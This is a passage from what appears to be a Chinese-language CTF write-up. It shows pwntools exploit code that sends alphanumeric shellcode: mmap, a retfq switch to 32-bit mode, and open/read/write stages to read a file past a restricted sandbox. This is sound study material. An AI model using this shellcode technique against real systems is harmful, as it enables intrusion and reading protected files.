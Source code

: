 ```python
        mov rdx, 0x7a
        mov rax, 0x1
        syscall
''', arch = 'amd64', os = 'linux')

#gdb.attach(p, 'b * 0x4002eb\nc\nsi')
code  = code_mmap
code += code_append
code += code_read
code += code_append
code += code_retfq
code += code_append

code1  = code_open
code1 += code_retfq_1
code1 += code_read_write

p.sendafter("shellcode: ", code)
#pause()
p.sendline(code1)
p.interactive()
p.close()
```

看一下第一段mmap的代码：

```python
code_mmap = asm('''
        /*mov rdi, 0x40404040*/ /*set rdi*/
        push 0x40404040
        pop rdi

        /*mov rsi, 0x7e*/ /*set rsi*/
        push 0x7e
        pop rsi

        /*mov rdx, 0x7*/ /*set rdx*/
        push 0x37
        pop rax
        xor al, 0x30
        push rax
        pop rdx

        /*mov r8, 0*/ /*set r8*/
        push 0x30
        pop rax
        xor al, 0x30
        push rax
        pop r8

        /*mov r9, 0*/ /*set r9*/
        push rax
        pop r9

        /*syscall*/
        push 0x5e
        pop rcx
        xor byte ptr [rbx+0x2c], cl
        push 0x5c
        pop rcx
        xor byte ptr [rbx+0x2d], cl

        /*mov rax, 0x9*/ /*set rax*/
        push 0x39
```